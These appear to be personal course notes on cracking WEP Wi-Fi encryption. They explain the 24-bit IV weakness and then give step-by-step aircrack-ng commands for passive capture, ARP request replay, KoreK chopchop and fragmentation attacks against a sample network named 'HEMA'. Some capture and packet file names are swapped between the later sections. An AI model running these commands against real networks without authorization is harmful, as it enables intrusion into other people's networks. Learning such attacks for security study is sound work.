

A-Pre-Connection Attacks
B-Gaining Access
C-Post-Connection Attacks
WEP CRACKING:
-Wired Equivalent Privacy
-Old Encryption
-Uses an algorithm called RC4
-Still used in some networks
-Can be cracked easily
WEP CRACKING:
-Each packet is encrypted using a unique key stream
-Random initialization vector(IV) is used to generate the keys streams
-The initialization vector is only 24 bits!
-IV+key(password used to connect network)=key stream
ex:
keystream+"Data to send to the router"=ASDKASDIASDJA
WEP WEAKNESSES:
-IV is too small (only 24 bits)
-IV is sent in plain text
Result:
-IV's will repeat on busy networks
-This makes WEP vulnerable to statistical attacks
-Repeated IVs can be used to determine the key stream
-And break the encryption
Conclusion:
1-Capture a large number of packets/IVs --->using airodump-ng
2-Analyse the captured IVs and crack the key --->using aircrack-ng
ex, consider HEMA network is WEP and want to hack:
#airodump-ng wlan0 (discovering all wireless networks)ctrl+c
#airodump-ng --bssid 58:7F:66:3F:61:E0 --channel 9 --write basic_wep wlan0
---------------------------------------------------------------------------------
in another shell in terminator:
#aircrack-ng basic_wep-01.cap
Note:this method succeed when #Data is large that's mean it's busy network and this good to hack WEP
Problem:
-if network is not busy
-it would take some time to capture enough IVs
Solution:
-->Force the Access Point(router) to generate new IVs
Problem:
-APs only communicate with connected clients
-->we can't communicate with it
-->we can't even start the attack
Solution:
-->Associate(mean i want to connect you) with the AP before launching the attack and force number of data to increase very very quickly
ex,consider HEMA network is WEP we want to hack:
#airodump-ng wlan0 (discovering all wireless networks)ctrl+c
#airodump-ng --bssid 58:7F:66:3F:61:E0 --channel 9 --write arpreplay wlan0
---------------------------------------------------------------------------------
in another shell
#ifconfig (to know MAC address of your wifi adapter, it's first 12 digits after the "unspec")
#aireplay-ng --fakeauth 30 -a 58:7F:66:3F:61:E0 -h D0:37:45:71:10:56 wlan0 (aireplay-ng to associate every 30 seconds)
----------------------------------------------------------------------------------
in another shell
#aireplay-ng --arpreplay -b 58:7F:66:3F:61:E0 -h D0:37:45:71:10:56 wlan0 (to run the attack)
---------------------------------------------------------------------------------
you can write this in ifconfig shell after #data reach 50000:
#aircrack-ng arpreplay-01.cap
ARP REQUEST REPLAY:
-Wait for an ARP packet
-Capture it, and replay it (retransmit it)
-This causes the AP to produce another packet with a new IV
-Keep doing this till we have enough IVs to crack the key
ARP:The Address Resolution Protocol is a communication protocol used for discovering the link layer address, such as a MAC address, associated with a given internet layer address, typically an IPv4 address. This mapping is a critical function in the Internet protocol

KOREK CHOP CHOP ATTACK:
-Another method to crack WEP
-Works with weak signals
-But it's more complex than ARP Request Replay
1-Determine packet key stream
2-Forge new packet
3-Inject it in the traffic
ex,consider HEMA network is WEP we want to hack:
#airodump-ng wlan0 (discovering all wireless networks)ctrl+c
#airodump-ng --bssid 58:7F:66:3F:61:E0 --channel 9 --write chopchop-test wlan0
---------------------------------------------------------------------------------
in another shell
#ifconfig (to know MAC address of your wifi adapter, it's first 12 digits after the "unspec")
#aireplay-ng --fakeauth 30 -a 58:7F:66:3F:61:E0 -h D0:37:45:71:10:56 wlan0 (aireplay-ng to associate every 30 seconds)
----------------------------------------------------------------------------------
in another shell
#aireplay-ng --chopchop -b 58:7F:66:3F:61:E0 -h D0:37:45:71:10:56 wlan0 (to run the attack)
use this packet? y
#packetforge-ng -0 -a 58:7F:66:3F:61:E0 -h D0:37:45:71:10:56 -k 255.255.255.255 -l 255.255.255.255 -y replay_dec-27462460.xor -w chopchop-forged-packet (you should write your .xor file)
#aireplay-ng -2 -r fragment-forged-packet wlan0
------------------------------------------------------------------------------------
you can write it in ifconfig shell:
#aircrack-ng fragment-test-01.cap
Fragmentation Attack:
-->The goal of this method is to obtain 1500 bytes of the PRGA(Pseudo Random Generation Algorithm), this can be used to forge a new packet which can be injected into the traffic to generate new IV's
ex,consider HEMA network is WEP we want to hack:
#airodump-ng wlan0 (discovering all wireless networks)ctrl+c
#airodump-ng --bssid 58:7F:66:3F:61:E0 --channel 9 --write fragment-test wlan0
---------------------------------------------------------------------------------
in another shell
#ifconfig (to know MAC address of your wifi adapter, it's first 12 digits after the "unspec")
#aireplay-ng --fakeauth 30 -a 58:7F:66:3F:61:E0 -h D0:37:45:71:10:56 wlan0 (aireplay-ng to associate every 30 seconds)
----------------------------------------------------------------------------------
in another shell
#aireplay-ng --fragment -b 58:7F:66:3F:61:E0 -h D0:37:45:71:10:56 wlan0 (to run the attack)
use this packet? y
#packetforge-ng -0 -a 58:7F:66:3F:61:E0 -h D0:37:45:71:10:56 -k 255.255.255.255 -l 255.255.255.255 -y fragment-27462460.xor -w fragment-forged-packet (you should write your .xor file)
#aireplay-ng -2 -r chopchop-forged-packet wlan0
------------------------------------------------------------------------------------
you can write it in ifconfig shell:
#aircrack-ng chopchop-test-01.cap